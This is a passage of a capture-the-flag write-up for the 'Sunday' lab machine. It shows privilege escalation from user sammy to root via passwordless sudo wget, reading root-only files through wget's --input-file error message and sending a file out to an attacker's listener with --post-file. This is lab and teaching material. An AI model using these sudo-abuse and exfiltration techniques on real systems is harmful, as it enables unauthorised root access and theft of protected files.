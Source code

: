 

sammy has access to user.txt:



    sammy@sunday:~$ wc -c Desktop/user.txt
    33 Desktop/user.txt

    sammy@sunday:~$ cat Desktop/user.txt
    a3d94980...



## Privesc: sammy to root

### Enumeration

In enumerating as sammy, I see that sammy can sudo wget without password
(either in [LinEnum.sh](https://github.com/rebootuser/LinEnum) output or
from checking `sudo -l`).

### 6 Methods to root Using wget

There's a ton of things we can do from here. Reading the [wget man
page](https://linux.die.net/man/1/wget) provides a wealth of ideas. I'll
show six examples.

#### --input-file

The easiest way to just get the flag is to take advantage of the
`--input-file` or `-i` flag on wget. This flag allows you to provide a
file with the urls to visit. When it reads the hash, the string will
fail to process as a url, and will tell us so in an error message,
complete with flag:



    sammy@sunday:~$ sudo wget --input-file /root/root.txt
    /root/root.txt: Invalid URL fb40fab6...: Unsupported scheme
    No URLs found in /root/root.txt.



#### Post Flag

A second method to exfil the flag is to have wget post the file back to
us using `--post-file`. Unfortunately, python SimpleHTTPServer doesn't
support POST requests:



    root@kali# python3 -m http.server 443
    Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
    10.10.10.76 - - [27/Sep/2018 20:57:17] code 501, message Unsupported method ('POST')
    10.10.10.76 - - [27/Sep/2018 20:57:17] "POST / HTTP/1.0" 501 -



However, in this, case I only need to read the POST, not respond to it,
so a simple `nc` will work:

